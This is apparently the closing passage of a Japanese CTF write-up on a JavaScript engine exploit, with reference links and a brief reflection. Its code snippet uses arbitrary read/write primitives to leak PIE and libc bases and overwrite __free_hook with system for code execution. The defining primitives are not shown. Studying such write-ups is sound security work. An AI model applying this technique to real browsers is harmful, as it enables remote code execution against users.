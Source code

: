 ```js
console.log("[+] PIE leak: 0x" + PIE_leak.toString(16));
console.log("[+] PIE base: 0x" + PIE_base.toString(16));

puts_got = PIE_base + 0xd9a3b8n;
libc_base = arb_read(puts_got) - 0x809c0n;
free_hook = libc_base + 0x3ed8e8n;
system = libc_base + 0x4f440n;

console.log("[+] Libc base: 0x" + libc_base.toString(16));
console.log("[+] __free_hook: 0x" + free_hook.toString(16));
console.log("[+] system: 0x" + system.toString(16));

console.log("[+] Overwriting __free_hook to &system");
arb_write(free_hook, system);

console.log("xcalc")
```

参考資料
- https://blog.ssrf.in/post/webkit-exploit/
- https://blog.ssrf.in/post/webkit-memory-corrupution/
- https://liveoverflow.com/the-butterfly-of-jsobject-browser-0x02/
- https://liveoverflow.com/just-in-time-compiler-in-javascriptcore-browser-0x03/
- https://liveoverflow.com/webkit-regexp-exploit-addrof-walk-through-browser-0x04/
- https://liveoverflow.com/the-fakeobj-primitive-turning-an-address-leak-into-a-memory-corruption-browser-0x05/

#### まとめ
他のWriteUpを読みながらなんとか再現できた
一人ではとんでもない時間がかかってしまいそう

#### 参考資料
- https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/